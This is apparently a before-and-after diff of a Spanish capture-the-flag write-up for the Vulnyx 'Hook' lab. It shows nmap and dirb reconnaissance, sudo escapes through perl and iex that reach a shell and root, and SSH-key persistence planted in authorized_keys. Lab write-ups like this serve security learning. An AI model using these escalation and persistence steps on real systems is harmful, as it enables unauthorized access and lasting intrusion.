

Before and after one commit to Koh4kU/Writeups, a Markdown page: Vulnyx/Hook/writeup.md, 2 parts joined by grey strips. Shown at 82% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
Update writeup.md hook

````diff
--- a/Vulnyx/Hook/writeup.md
+++ b/Vulnyx/Hook/writeup.md
@@ -1,12 +1,48 @@
-Identificamos el equipo a vulnerar -> netdiscover -r 192.168.1.0/24 e identificamos la ip 192.168.1.56
+# WRITEUP - HOOK - VULNYX
+
+![image](https://github.com/user-attachments/assets/9d529618-311b-4268-84d3-8ef762a1b5ca)
+
+## Scanning Network
+
+Escaneamos la red para identificar la IP del equipo a vulnerar:
+```shell
+ netdiscover -r 192.168.1.0/24
+```
+E identificamos la ip 192.168.1.56.
 
 Realizamos un escaneo de puertos rápido y sencillo para determinar todos aquellos puertos abiertos en la máquina e identificar posibles vectores de ataque.
+```shell
+nmap -p- --open --min-rate 5000 -n -Pn 192.168.1.56
+```
+    PORT   STATE SERVICE
+    22/tcp open  ssh
+    80/tcp open  http
+    MAC Address: 08:00:27:1A:88:10 (Oracle VirtualBox virtual NIC)
 
-nmap -p- --open --min-rate 5000 -n -Pn 192.168.1.56
+Una vez identificados los dos puertos abiertos (ssh, http), realizamos un escaneo más exhaustivo con una lista de scripts de reconocimiento por defecto para determinar los servicios
+```shell
+nmap -p 22,80 -sVC 192.168.1.56
+```
+    PORT   STATE SERVICE VERSION
+    22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
+    | ssh-hostkey:
+    |   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
+    |_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
+    80/tcp open  http    Apache httpd 2.4.59 ((Debian))
+    |_http-title: Apache2 Debian Default Page: It works
+    | http-robots.txt: 1 disallowed entry
+    |_/htmLawed
+    |_http-server-header: Apache/2.4.59 (Debian)
+    MAC Address: 08:00:27:1A:88:10 (Oracle VirtualBox virtual NIC)
+    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
-Una vez visualizados los dos puertos abiertos (ssh, http), realizamos un escaneo más exhaustivo con una lista de scripts de reconocimiento por defecto para determinar los servicios
+Ya con el nmap, vemos que el servicio tiene una página robots.txt.
 
-nmap -p 22,80 -sVC 192.168.1.56
+Al ser un servicio web por HTTP, podemos realizar un pequeño chequeo de diferentes directorios dentro de la página web, mientras inspeccionamos la página a mano:
+```shell
+dirb http://192.168.1.55
+```
+<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hook/Content/dirb.png>
 
-Ya con el nmap, vemos que el servicio tiene una página robots.txt
+Mientras se ejecuta revisamos la página principal y vemos que es la normal de un servicio Apache. El dirbuster nos ha determinado dos directorios diferentes un robots.txt y un index.html. Dentro del robots.txt nos sugiere otro direccionamiento, por lo que accedemos a revisarlo.
 
@@ -39,12 +88,21 @@ sudo -u noname /usr/bin/perl "exec '/bin/bash'"
 
-Una vez siendo noname, podemos leer la flag:
+```shell
+sudo -u noname /usr/bin/perl -e "exec '/bin/bash'"
+```
+Una vez siendo noname, podemos leer la flag.
 
-BONUS:
-Podemos mantener una persistencia, para no tener que repetir el proceso en caso de volver a conectarse con el usuario, y sin cambiarle la contraseña ni nada, la forma es crear un par clave con ssh-keygen para así, poder conectarnos mediante la clave privada al sistema, las veces que queramos. Creamos las claves con ssh-keygen, y una vez finaliza, copiamos id_rsa (clave privada) la cual será la que usaremos para realizar las conexiones remotas. Por el otro lado, la clave pública será copiada dentro del archivo de la máquina víctima ~/.ssh/authorized_keys.
+<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hook/Content/flag_user.png>
+
+Una vez tenemos la flag, tenemos que escalar los privilegios a root para conseguir un acceso completo, revisando los permisos vemos que podemos ejecutar como root sin contraseña "/usr/bin/iex".
+
+Buscando un poco de información, podemos ver que se pueden ejecutar comandos del sistema dentro de la consola con:
+```shell
+:os.cmd('command') (con comillas simples, dobles no funciona).
+```
+<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Hook/Content/root_iex.png>
+
+Sabiendo esto, podemos movernos y obtener la flag de root de forma sencilla.
 
 
-Una vez tenemos la flag, tenemos que escalar los privilegios a root para conseguir un acceso completo, revisando los permisos vemos que podemos ejecutar como root sin contraseña "/usr/bin/iex"
-Buscando un poco de información, podemos ver que se pueden ejecutar comandos del sistema dentro de la consola con:
-:os.cmd('command') (con comillas simples, dobles no funciona)
-
-Sabiendo esto, podemos movernos y obtener la flag de root de forma sencilla.
+## BONUS
+Podemos mantener una persistencia, para no tener que repetir el proceso en caso de volver a conectarse con el usuario, y sin cambiarle la contraseña ni nada, la forma es crear un par clave con ssh-keygen para así, poder conectarnos mediante la clave privada al sistema, las veces que queramos. Creamos las claves con ssh-keygen, y una vez finaliza, copiamos id_rsa (clave privada) la cual será la que usaremos para realizar las conexiones remotas. Por el otro lado, la clave pública será copiada dentro del archivo de la máquina víctima ~/.ssh/authorized_keys.
````
Also changed, not shown: other parts of Vulnyx/Hook/writeup.md (+24 -11 lines).
